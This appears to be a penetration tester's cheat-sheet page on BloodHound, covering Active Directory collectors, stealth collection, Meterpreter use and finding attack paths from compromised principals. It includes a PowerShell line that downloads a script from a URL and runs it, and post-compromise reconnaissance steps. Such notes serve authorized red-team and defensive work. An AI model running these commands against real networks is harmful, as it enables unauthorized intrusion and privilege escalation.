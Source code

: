 # [BloodHound](https://github.com/BloodHoundAD/BloodHound)

> BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment.

---

## Setup

**Attack machine**: [[neo4j#Run via Docker|Start Neo4j]]

**Attack machine (must be GUI)**: Start Bloodhound

```bash
cd /opt/bloodhound/BloodHound-linux-x64
./BloodHound --no-sandbox # no sudo required
```

Login using your neo4j credentials (in LastPass).

---

## Collection

Somehow, someway, execute a BloodHound collector (located in **/opt/bloodhound/collectors**), either from the attacker's machine with domain user credentials or on a domain-joined machine.

**Attacker Machine, Python collector**:

```bash
bloodhound-python -d $DOMAIN -u $USERNAME -p $PASSWORD -c All -ns $DOMAIN_DNS_SERVER_IP
```

**Target Machine, PowerShell collector**:

Source the BloodHound collector script.

```powershell
. .\SharpHound.ps1 # Locally
IEX (New-Object Net.Webclient).DownloadString("$HTTP_URL_TO_SCRIPT"); $BLOODHOUND_COMMAND_HERE # Remotely
```

Execute the collector script.

```powershell
Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth
```

**Target Machine, C# Collector**:

```powershell
.\SharpHound.exe --CollectionMethod All --Domain $DOMAIN --Stealth --NoSaveCache # HYDRA.test
```

**Meterpreter/PowerShell on Target Machine**:

```powershell
meterpreter > use powershell
meterpreter > powershell_import $PATH_TO_SHARPHOUND_PS1
meterpreter > powershell_execute "Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth -NoSaveCache" # HYDRA.test
```

---

## Ingest

Transfer the resultant ZIP archive to the attacker machine upload it to the BloodHound web UI, and explore!

---

## Analysis Process

After you've ingested all of the data, go to the search bar, type in the name of the principal you've already compromised, and hit enter. Right-click the resultant node and select `Mark Principal as Owned`. Do this for each principal you've compromised.

Afterwards, go through each of the prebuilt analytic queries except for `Shortest Paths to High Value Targets`.

If nothing stands out, select the query `Shortest Paths to High Value Targets` and see if there's anything interesting.

Afterwards, search for each of the owned principals. Right-click the node and investigate the `Node Info` attributes. Pay special attention to `Outbound Control Objects`.

---

## Discover Kerberoastable Users

Use the prebuilt query `List all Kerberoastable Users`.

---

## Generate a Graph of a Foreign Domain

```powershell
Invoke-BloodHound -CollectionMethod $COLLECTION_METHOD -Domain $FOREIGN_DOMAIN
```

Enumerates via LDAP, so must be executed in the security context of a user who can issue an LDAP query to `$FOREIGN_DOMAIN`'s primary domain controller.

